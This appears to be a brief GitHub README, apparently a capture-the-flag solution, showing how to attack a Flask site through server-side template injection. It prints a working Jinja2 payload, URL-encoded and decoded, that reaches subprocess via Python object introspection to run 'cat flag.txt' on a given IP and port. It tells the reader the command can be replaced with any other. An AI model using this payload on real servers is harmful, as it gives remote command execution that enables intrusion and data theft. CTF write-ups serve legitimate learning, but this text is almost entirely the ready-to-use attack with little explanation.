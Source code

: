 # flask_hacked
# Hi i told you about how to hack flask site
Already command:   `http://167.172.55.94:31138/%7B%7B%22%22.__class__.__mro__[1].__subclasses__()[414]%20(%22cat%20flag.txt%22,shell=True,stdout=-1).communicate()%7D%7D`

The first part is write URL `167.172.55.94:31138`

Second part is write exploit and start bash command
`%7B%7B%22%22.__class__.__mro__[1].__subclasses__()[414]%20(%22cat%20flag.txt%22,shell=True,stdout=-1).communicate()%7D%7D` URL encode

`{{"".__class__.__mro__[1].__subclasses__()[414] ("cat flag.txt",shell=True,stdout=-1).communicate()}}` ASCII 

`"cat flag.txt"` is a bash command. You can write your command.

Solve this task!

